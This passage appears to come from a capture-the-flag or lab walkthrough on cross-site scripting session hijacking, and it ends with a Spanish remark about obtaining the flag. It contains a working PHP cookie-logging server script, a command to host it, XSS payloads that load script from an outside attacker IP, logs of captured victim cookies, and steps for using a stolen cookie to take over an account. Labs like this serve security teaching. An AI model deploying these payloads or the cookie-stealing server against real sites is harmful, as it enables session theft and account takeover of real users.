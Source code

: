### Setting Up the PHP Script

Write a PHP script to log cookies into a file:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Save this script as `index.php` and host it using the PHP server:

```bash
sudo php -S 0.0.0.0:80
```

### Capturing the Cookie

When the victim triggers the XSS payload, their cookie will be sent to the attacker's server:

```bash
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

The `cookies.txt` file will log the cookies:

```bash
cat cookies.txt
Victim IP: 10.10.10.1 | Cookie: cookie=f904f93c949d19d870911bf8b05fe7b2
```

## Using the Stolen Cookie

To hijack the session, use the stolen cookie on the login page:

1. Navigate to `/hijacking/login.php`.
2. Open the **Storage** tab in Developer Tools (Shift+F9 in Firefox).
3. Add the stolen cookie:
    - **Name**: The part before `=`.
    - **Value**: The part after `=`.

Refresh the page to access the victim's account.

"><script src=http://10.10.15.137/url></script>
"><script src=http://10.10.15.137/script.js></script>
[Fri Jan 10 12:49:35 2025] 10.129.72.167:36732 [200]: GET /index.php?c=cookie=c00k1355h0u1d8353cu23d
Agregamos la cookie y asi podemos obtener la flag

---